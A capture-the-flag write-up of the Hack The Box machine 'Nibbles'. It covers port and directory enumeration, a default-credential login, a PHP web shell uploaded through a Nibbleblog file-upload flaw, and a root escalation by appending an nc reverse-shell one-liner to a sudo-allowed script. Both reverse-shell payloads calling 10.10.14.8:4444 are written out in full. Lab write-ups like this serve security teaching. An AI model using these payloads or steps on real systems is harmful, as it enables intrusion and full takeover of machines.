

`Box: Linux`
`Level: Easy`

### Index
1. [Box Info](#Box%20Info)
2. [Nmap Enum](#Nmap%20Enum)
3. [Web Enum](#Web%20Enum)
	1. [`GoBuster reveals the nibbleblog version`](#`GoBuster%20reveals%20the%20nibbleblog%20version`)
	2. [`Uploading Shell on My Image and getting Reverse Shell`](#`Uploading%20Shell%20on%20My%20Image%20and%20getting%20Reverse%20Shell`)
	3. [`USer Flag Captured`](#`USer%20Flag%20Captured`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`File Trasfer from Target to Kali using PHP`](#`File%20Trasfer%20from%20Target%20to%20Kali%20using%20PHP`)
	2. 

### Box Info
```
Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.
```

### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn nibbles.htb
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only two ports are open. Let's dive into web.

### Web Enum


###### `GoBuster reveals the nibbleblog version`
```
# gobuster dir -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://nibbles.htb/nibbleblog/themes/]
/admin                (Status: 301) [Size: 321] [--> http://nibbles.htb/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://nibbles.htb/nibbleblog/languages/]
```


Looking on Exploit-DB i found that the `Nobbleblog v4.0.3` is vulnerable to Arbitrary File Upload vulnerability. Metasploit module is available but I am going to try it out manually without Metasploit. Looking at the exploit code at [Exploit-DB](https://www.exploit-db.com/exploits/38489) i notice that the file upload require valid set of credentials on `http://nibbles.htb/nibbleblog/admin.php`. I just enter `admin.php` to see if it is present on our target. But I will run the FeroxBuster to enumerate more files. I also ran `ffuf` to enumerate subdomains but didn't find anything interesting.
```
# ffuf -H "Host: FUZZ.nibbles.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://nibbles.htb/ -mc 200 -fl 17
```

```
# feroxbuster -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 404 -x php
200      GET       27l       96w     1401c http://nibbles.htb/nibbleblog/admin.php
```


The default credentials works. 

###### `Uploading Shell on My Image and getting Reverse Shell`


I uploaded `callmeback.php` from the Nibbles directory. Here's the Content of `callmeback.php` file.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Nibble.HTB]
└─# cat callmeback.php        
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```
Now getting shell. These file goes to `http://nibbles.htb/nibbleblog/content/private/plugins/my_image` and click on `image.php`. Make suer your NC at port 4444 is running.



###### `USer Flag Captured`
```
# nc -lvnp 4444                         
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 51022
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ ls
db.xml
image.jpg
image.php
$ ls /home
nibbler
$ ls /home/nibbler
personal.zip
user.txt
$ cat /home/nibbler/user.txt
66b0b3fc5944b38
```
Notice the `Personal.zip` in the home directory.
### Privilege Escalation 

##### `File Trasfer from Target to Kali using PHP`
This time I'm trying something different. Trying to transfer file from our target Nibbles to our kali machine using PHP.
```
$ which php
/usr/bin/php
$ cd /home/nibbler
$ php -S 0.0.0.0:8081   #On the Target You will see the next line here once the following wget command pull out the file.
[Sat Sep 28 00:57:33 2024] 10.10.14.8:54430 [200]: /personal.zip
```

Now on Kali
```
# wget http://nibbles.htb:8081/personal.zip                                                  
--2024-09-28 00:57:33--  http://nibbles.htb:8081/personal.zip
Resolving nibbles.htb (nibbles.htb)... 10.10.10.75
Connecting to nibbles.htb (nibbles.htb)|10.10.10.75|:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1855 (1.8K) [application/x-zip-compressed]
Saving to: ‘personal.zip’

personal.zip                              100%[=====================================================================================>]   1.81K  --.-KB/s    in 0.001s  

2024-09-28 00:57:33 (1.92 MB/s) - ‘personal.zip’ saved [1855/1855]
```

###### `LinPEAS Findings`
```
Linux version 4.4.0-104-generic (buildd@lgw01-amd64-022) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.5) ) #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017
Sudo version 1.8.16 

$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

Running `Sudo -l` command shows that we can execute monitor.sh without PASSWD. Let's add our reverse shell code at the end of the file and run it with sudo.

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found

^C
```

running NC on port 4444

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 51060
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

